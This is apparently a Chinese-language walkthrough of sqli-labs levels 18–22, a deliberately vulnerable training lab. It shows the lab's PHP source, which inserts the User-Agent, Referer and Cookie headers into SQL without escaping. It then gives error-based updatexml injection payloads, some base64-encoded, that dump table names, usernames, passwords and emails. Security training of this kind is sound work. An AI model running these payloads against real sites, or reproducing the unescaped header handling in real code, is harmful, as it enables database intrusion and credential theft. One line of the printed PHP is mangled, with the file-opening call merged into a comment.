










### 第十八关

源码

<?php  
//including the Mysql connect parameters.  
include("../sql-connections/sql-connect.php");  
error_reporting(0);  

function check_input($value)  
    {  
    if(!empty($value))  
       {  
       // truncation (see comments)  
       $value = substr($value,0,20);  
       }  

       // Stripslashes if magic quotes enabled  
       if (get_magic_quotes_gpc())  
          {  
          $value = stripslashes($value);  
          }  

       // Quote if not a number  
       if (!ctype_digit($value))  
          {  
          $value = "'" . mysql_real_escape_string($value) . "'";  
          }  

    else  
       {  
       $value = intval($value);  
       }  
    return $value;  
    }  


    $uagent = $_SERVER['HTTP_USER_AGENT'];  
    $IP = $_SERVER['REMOTE_ADDR'];  
    echo "<br>";  
    echo 'Your IP ADDRESS is: ' .$IP;  
    echo "<br>";  
    //echo 'Your User Agent is: ' .$uagent;  
// take the variables  
if(isset($_POST['uname']) && isset($_POST['passwd']))  

    {  
    $uname = check_input($_POST['uname']);  
    $passwd = check_input($_POST['passwd']);  

    /*  
    echo 'Your Your User name:'. $uname;    echo "<br>";    echo 'Your Password:'. $passwd;    echo "<br>";    echo 'Your User Agent String:'. $uagent;    echo "<br>";    echo 'Your User Agent String:'. $IP;    */  
    //logging the connection parameters to a file for analysis.$fp=fopen('result.txt','a');  
    fwrite($fp,'User Agent:'.$uname."\n");  

    fclose($fp);  


    $sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";  
    $result1 = mysql_query($sql);  
    $row1 = mysql_fetch_array($result1);  
       if($row1)  
          {  
          echo '<font color= "#FFFF00" font size = 3 >';  
          $insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";  
          mysql_query($insert);  
          //echo 'Your IP ADDRESS is: ' .$IP;  
          echo "</font>";  
          //echo "<br>";  
          echo '<font color= "#0000ff" font size = 3 >';         
          echo 'Your User Agent is: ' .$uagent;  
          echo "</font>";  
          echo "<br>";  
          print_r(mysql_error());            
          echo "<br><br>";  
          echo '';  
          echo "<br>";  

          }  
       else  
          {  
          echo '<font color= "#0000ff" font size="3">';  
          //echo "Try again looser";  
          print_r(mysql_error());  
          echo "</br>";          
          echo "</br>";  
          echo '';   
          echo "</font>";    
          }  

    }  

?>

username与password使用了防御函数故不是注入点

`$uname = check_input($_POST['uname']);  
$passwd = check_input($_POST['passwd']);`

UA注入的前提得使用正确的用户名与密码

UA头修改为1'与1’'可以发现回显

爆数据库1',1,updatexml(1,concat(0x5e,database(),0x5e),1))#


构造

```SQL
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

```SQL
这里我们要在这句话里面插入我们的查询语句INSERT INTO INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)在闭合VALUES（）的时候也不用闭合外面的双引号，双引号是php中的语法。不会被带入mysql中
```

- 构造插入语句查询数据库名

```SQL
 1',1,updatexml(1,（concat(0x5e,database(),0x5e)）,1))#
```

```SQL
此语句会插入到INSERT INTO INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('1',1,updatexml(1,（concat(0x5e,database(),0x5e)）,1))#', '$IP', $uname)
```

爆表名1',1,updatexml(1,(select group_concat('%',table_name) from information_schema.tables where table_schema=database()),1))#



爆列名1',1,updatexml(1,(select group_concat('%',column_name) from information_schema.columns where table_schema=database() and table_name='users'),1))#



爆数据1',1,updatexml(1,(select group_concat('%',id,username,password) from security.users),1))#



### 第十九关

本关与上一关区别不大主要在这两行代码不同而已

`$uagent = $_SERVER['HTTP_REFERER'];`

`$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";`

爆数据库名1',updatexml(1,concat(0x5e,database(),0x5e),1))#



后续同理这里直接拿数据了1',updatexml(1,(select group_concat('%',id,username,password) from security.users),1))#



### 第二十关

本关为cookie注入





`if(!isset($_POST['submit'])){`

`$cookee = $_COOKIE['uname'];`

`$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";`

`}`

当登陆后会分配一个cookie，这个cookie在第二个数据包中，这个cookie会被带入一个sql查询语句中，这里就是入口了，而且是''闭合。使用一个报错注入即可

这里直接拿数据了uname=1' and updatexml(1,(select group_concat('%',id,email_id) from security.emails),1)#

### 第二十一关

本关与上一关有两点不同，一是对cookie进行了base_64decode()而是闭合不同

`$cookee = base64_decode($cookee);  
echo "<br></font>";  
$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";`

所以我们需要对上传的数据进行base64加密和修改闭合方式

获取数据

修改闭合后

uname=1‘) and updatexml(1,(select group_concat('%',id,email_id) from security.emails),1)#

base加密后

uname=MScpIGFuZCB1cGRhdGV4bWwoMSwoc2VsZWN0IGdyb3VwX2NvbmNhdCgnJScsaWQsZW1haWxfaWQpIGZyb20gc2VjdXJpdHkuZW1haWxzKSwxKSM=



### 第二十二关

与上一关唯一不同就是闭合不同

`$cookee = base64_decode($cookee);  
$cookee1 = '"'. $cookee. '"';  
echo "<br></font>";  
$sql="SELECT * FROM users WHERE username=$cookee1 LIMIT 0,1";`

直接爆数据

uname=1" and updatexml(1,(select group_concat('%',id,email_id) from security.emails),1)#

base加密后

uname=MSIgYW5kIHVwZGF0ZXhtbCgxLChzZWxlY3QgZ3JvdXBfY29uY2F0KCclJyxpZCxlbWFpbF9pZCkgZnJvbSBzZWN1cml0eS5lbWFpbHMpLDEpIw==


